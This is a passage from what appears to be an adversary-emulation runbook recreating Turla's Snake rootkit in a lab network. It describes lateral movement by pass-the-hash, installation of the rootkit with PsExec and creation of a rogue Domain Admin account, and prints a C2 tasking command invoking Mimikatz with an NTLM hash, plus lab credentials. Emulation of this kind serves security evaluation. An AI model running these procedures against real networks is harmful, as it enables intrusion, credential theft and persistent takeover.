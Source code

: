 ### :moyai: Source Code

* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [Generic process execution](../../Resources/Snake/UserModule/src/execute.cpp#L406)
* [Mimikatz](../../Resources/Mimikatz)

### :microscope: Cited Intelligence

* TBD

## Step 17 - Lateral Movement to Admin Workstation and Persistence

:microphone: `Voice Track:`

Step 17 emulates Turla performing lateral movement to the domain admin's workstation and performing additional persistence by creating a new domain admin account.

The retrieved NTLM hash discovered in the previous step is used in a pass-the-hash attack to move laterally to `Zilvinas`'s workstation. PsExec is used via pass-the-hash to execute and install the Snake rootkit on the target workstation.

Once the admin workstation has been compromised, Snake is used to enumerate processes running on `Zilvinas`'s workstation `uosis`, where it is discovered that `ZilvinasAdmin` has processes running which can be used for token impersonation. By impersonating `ZilvinasAdmin`, a new domain user `Leshy` is created and added to the `Domain Admins` domain group for persistence.

---

### ☣️ Procedures

* Instruct Snake to pass-the-hash using `ZilvinasAdmin`'s NTLM hash to run PsExec and install Snake on the target workstation.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 3, "proc": "C:\\Windows\\System32\\loadperf.exe", "args": "\"privilege::debug\" \"sekurlsa::pth /user:ZilvinasAdmin /ntlm:f3fcd61f987a97da49ce5f650b4e6539 /domain:nk.local /remotepc:uosis /pexe:C:\\Windows\\System32\\fs_mgr.exe /sys:1 /prun:C:\\Windows\\System32\\cmu_svc.exe\" \"quit\""}'
```

:arrow_right: Wait 2 minutes. Start a new RDP session to `uosis` (`10.100.40.102`) as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

* Open Edge and navigate to `https://drebule.nk.local/owa`. Log in as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |
